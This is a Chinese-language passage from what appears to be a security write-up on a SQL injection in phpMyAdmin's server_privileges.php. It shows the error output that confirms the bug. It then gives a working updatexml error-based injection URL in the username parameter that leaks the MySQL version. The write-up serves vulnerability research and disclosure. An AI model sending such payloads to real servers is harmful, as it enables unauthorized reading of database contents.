登陆后(这个操作需要权限) 尝试访问上面的url.返回如下

```
{"success":false,"error":"<div class=\"error\"><h1>Error<\/h1><p><strong>Static analysis:<\/strong><\/p><p>1 errors were found during analysis.<\/p><p><ol><li>Ending quote \" was expected. (near \"\" at position 53)<\/li><\/ol><\/p><p><strong>SQL query:<\/strong>  <a href=\"#\" class=\"copyQueryBtn\" data-text=\"SELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\">Copy<\/a>\n<a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Fselect.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a><a href=\"server_sql.php?sql_query=SELECT+%2A+FROM+%60mysql%60.%60user%60+WHERE+%60User%60+%3D+%27test%27%22%27%3B&amp;show_query=1\"><span class=\"nowrap\"><img src=\"themes\/dot.gif\" title=\"Edit\" alt=\"Edit\" class=\"icon ic_b_edit\">&nbsp;Edit<\/span><\/a>    <\/p>\n<p>\nSELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\n<\/p>\n<p>\n    <strong>MySQL said: <\/strong><a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Ferror-messages-server.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a>\n<\/p>\n<code>#1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '&quot;'' at line 1<\/code><br><\/div>"} 
```

一个sql报错信息, 说明这个最短poc生效了

利用的话 反正都回显了 直接updatexml报错注入

```
http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%20and%20(select%20updatexml(1,concat(0x7e,(SELECT%20@@version),0x7e),1))%20--%20 
```

在返回最下面可以看到`#1105 - XPATH syntax error: '~5.6.46~'`

### 后言

这个洞要求一个可以登录的账号才能注入. , 另外这个请求似乎也不需要`csrf-token`(不过似乎没什么用)

## 参考链接

> https://xz.aliyun.com/t/7092